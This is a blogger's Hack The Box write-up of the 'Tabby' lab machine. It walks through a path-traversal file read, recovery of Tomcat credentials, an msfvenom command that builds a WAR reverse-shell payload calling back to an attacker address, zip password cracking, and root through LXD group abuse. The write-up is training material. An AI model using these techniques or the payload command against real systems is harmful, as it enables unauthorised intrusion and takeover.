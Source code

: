 ```yaml
---
layout: single
title: Tabby - Hack The Box
excerpt: "Tabby was an easy box with simple PHP arbitrary file ready, some password cracking, password re-use and abusing LXD group permissions to instantiate a new container as privileged and get root access. I had some trouble finding the tomcat-users.xml file so installed Tomcat locally on my VM and found the proper path for the file."
date: 2020-11-07
classes: wide
header:
  teaser: /assets/images/htb-writeup-tabby/tabby_logo.png
  teaser_home_page: true
  icon: /assets/images/hackthebox.webp
categories:
  - hackthebox
  - infosec
tags:
  - php
  - lfi
  - tomcat
  - password cracking
  - zip
  - password re-use
  - lxd
---
```


![](/assets/images/htb-writeup-tabby/tabby_logo.png)

Tabby was an easy box with simple PHP arbitrary file ready, some password cracking, password re-use and abusing LXD group permissions to instantiate a new container as privileged and get root access. I had some trouble finding the tomcat-users.xml file so installed Tomcat locally on my VM and found the proper path for the file.

## Portscan

```
snowscan@kali:~/htb/tabby$ sudo nmap -sC -sV -p- 10.10.10.194
Starting Nmap 7.80 ( https://nmap.org ) at 2020-06-21 23:13 EDT
Nmap scan report for tabby.htb (10.10.10.194)
Host is up (0.018s latency).
Not shown: 65532 closed ports
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4 (Ubuntu Linux; protocol 2.0)
80/tcp   open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Mega Hosting
8080/tcp open  http    Apache Tomcat
|_http-open-proxy: Proxy might be redirecting requests
|_http-title: Apache Tomcat
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## Website - Port 80

There's a website running on the server with a typical hosting provider landing page.

![](/assets/images/htb-writeup-tabby/image-20200621231450618.png)

## Website - Port 8080

There's a default Tomcat installation on port 8080 but the password for the manager page has been changed and we can't log in.

![](/assets/images/htb-writeup-tabby/image-20200621231615067.png)

![](/assets/images/htb-writeup-tabby/image-20200621231712434.png)

## Find Tomcat credentials with PHP LFI

On the main website there's a link to a statement about some previous security breach: `http://megahosting.htb/news.php?file=statement`

![](/assets/images/htb-writeup-tabby/image-20200621231829387.png)

There's a very obvious arbitrary file read vulnerability in the `news.php` file and we can read any file with path traversal. Here I grabbed `/etc/passwd` and found the `ash` user:

![](/assets/images/htb-writeup-tabby/image-20200621232009306.png)

The Tomcat credentials are usually stored in the `tomcat-users.xml` file. I looked for it in `/etc/tomcat9/tomcat-users.xml` but the file wasn't there so instead I installed Tomcat locally and checked where it could be hidden:

```
snowscan@kali:/$ find / -name tomcat-users.xml 2>/dev/null
/etc/tomcat9/tomcat-users.xml
/usr/share/tomcat9/etc/tomcat-users.xml
```

![](/assets/images/htb-writeup-tabby/image-20200621232523769.png)

We  got the credentials: `tomcat / $3cureP4s5w0rd123!`

## Getting a shell with a WAR file

I can't log in to the Tomcat manager even with the credentials.

![](/assets/images/htb-writeup-tabby/image-20200621232743387.png)

But I can log in to the host-manager:

![](/assets/images/htb-writeup-tabby/image-20200621232848021.png)

I'll generate a WAR file with msfvenom to get a reverse shell:

```
msfvenom -p linux/x64/meterpreter/reverse_tcp -f war -o met.war LHOST=10.10.14.11 LPORT=4444
```

To deploy the WAR file payload I'll use `https://pypi.org/project/tomcatmanager/`

![](/assets/images/htb-writeup-tabby/image-20200621233339795.png)

Then I'll get the file name of the JSP file generated:

![](/assets/images/htb-writeup-tabby/image-20200621233433491.png)

Browsing to `http://10.10.10.194:8080/met/vjreafuiffq.jsp` I can trigger the meterpreter shell:

![](/assets/images/htb-writeup-tabby/image-20200621233731397.png)

## Priv esc to user ash

In the website folder there's a backup zip file:

![](/assets/images/htb-writeup-tabby/image-20200621233913483.png)

The file is encrypted but we can crack the hash:

![](/assets/images/htb-writeup-tabby/image-20200621234129261.png)

There isn't anything interesting in the zip file but the same password is used by the ash user:

![](/assets/images/htb-writeup-tabby/image-20200621234231636.png)

## Privesc

Ash is a member of the `lxd` group:

![](/assets/images/htb-writeup-tabby/image-20200621234322444.png)

Members of the `lxd` group can create containers and by creating a container as privileged we can access the host filesystem with root privileges.

I'll upload an small Alpine Linux image, import it, then launch a new instance as privileged then I can read the flag from the host OS.

![](/assets/images/htb-writeup-tabby/image-20200621235145325.png)

![](/assets/images/htb-writeup-tabby/image-20200621235323717.png)

![](/assets/images/htb-writeup-tabby/image-20200621235444013.png)